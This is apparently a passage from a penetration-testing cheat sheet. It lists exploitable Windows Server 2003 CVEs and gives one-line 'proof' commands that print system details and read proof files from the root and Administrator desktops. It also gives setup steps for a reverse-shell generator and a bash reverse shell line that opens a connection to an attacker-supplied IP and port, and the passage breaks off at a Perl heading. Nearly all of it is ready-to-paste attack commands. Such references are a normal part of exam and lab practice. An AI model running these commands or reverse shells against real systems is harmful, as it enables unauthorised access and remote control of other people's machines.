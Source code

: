 ##### Windows Server 2003

|      CVE      | Description                                                  |
| :-----------: | ------------------------------------------------------------ |
| CVE-2008-4250 | ms08_067_netapi  - exploits a parsing flaw in the path canonicalization code of NetAPI32.dll - bypassing NX |
| CVE-2017-8487 | allows an attacker to execute code when a victim opens a specially crafted file - remote code execution |

------

## PROOFS

### Linux

```
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

### Windows

```
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```

------

## REVERSE SHELL

### Amazing tool for shell generation

```
# Download
git clone https://github.com/ShutdownRepo/shellerator

# Install requirements
pip3 install --user -r requirements.txt

# Executable from anywhere
sudo cp shellrator.py /bin/shellrator
```

### Bash

```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### Perl
